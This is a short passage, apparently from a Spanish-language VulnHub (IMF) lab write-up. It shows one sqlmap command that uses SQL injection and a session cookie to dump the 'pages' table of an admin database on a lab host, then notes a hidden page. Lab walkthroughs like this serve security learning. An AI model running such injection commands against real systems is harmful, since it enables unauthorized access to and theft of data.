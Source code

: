Volcamos los datos de la tabla `pages`.

```bash
sqlmap -u "http://192.168.100.98/imfadministrator/cms.php?pagename=home" --cookie "PHPSESSID=qmbhopabov8a6qco31fbe5vuc2" --batch -D admin -T pages --dump
```

![alt text](/assets/img/writeups/vulnhub/imf1/image-13.png)

Vemos que una de ellas no es visible en la web renderizada. Vamos a acceder directamente a ella.

![alt text](/assets/img/writeups/vulnhub/imf1/image-14.png)

![alt text](/assets/img/writeups/vulnhub/imf1/image-15.png)
